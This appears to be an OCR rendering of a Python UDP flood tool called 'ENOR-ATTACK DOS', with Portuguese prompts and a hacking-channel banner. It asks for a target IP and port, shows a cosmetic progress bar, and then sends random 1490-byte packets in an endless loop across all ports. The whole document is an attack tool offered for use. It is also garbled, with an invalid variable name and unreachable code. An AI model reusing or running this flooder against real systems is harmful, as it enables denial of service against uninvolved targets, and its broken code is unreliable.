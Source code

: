 
#-*- coding: utf-8 -*-
try:
    from time import sleep
    import os
    import socket
    import random
    import sys
except KeyboardInterrupt:
    print("Você escolheu sair, obrigado!")
    sys.exit()


sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)

r = "\033[1;31m"
c = "\033[1;36m"
y = "\033[1;33m"

os.system("clear")

print()
print(r+"""
ENOR-ATTACK DOS
 *
  * * *
   *
     * *
   * *
       *
**

  *
    versão: V1.0
  youtube channel: ENORMITY HACKING 
Powered by: TrueSystem \n\n""")
try:
    ip alvo = input(c+"IP >>: ")
    port = int(input(c+"Porta >>: "))
except KeyboardInterrupt:
    print(r+"Você escolheu sair, obrigado!")
    sys.exit()

os.system("clear")
print(y+"[                    ] 0%")
sleep(1)
os.system("clear")
print(y+"[=====               ] 25%")
sleep(1)
os.system("clear")
print(y+"[==========          ] 50%")
sleep(1)
os.system("clear")
print(y+"[===============     ] 75%")
sleep(1)
os.system("clear")
print(y+"[====================] 100%")
sleep(3)
os.system("clear")
sent = 0


while True:
    sock.sendto(bytes, (ip,port))
    sent = sent + 1
    port = port + 1
    print (r+"[•]%s ATACANDO %s PARA CANCELAR ^C %s <<<>>>"%(sent,ip,port))


    if port == 65535:
        port = 1

try:
    print (r+"[•]%s ATACANDO %s PARA CANCELAR ^C %s <<<>>>"%(sent,ip,port))
except KeyboardInterrupt:
    print(r+"Você escolheu sair, obrigado!")
    sys.exit()
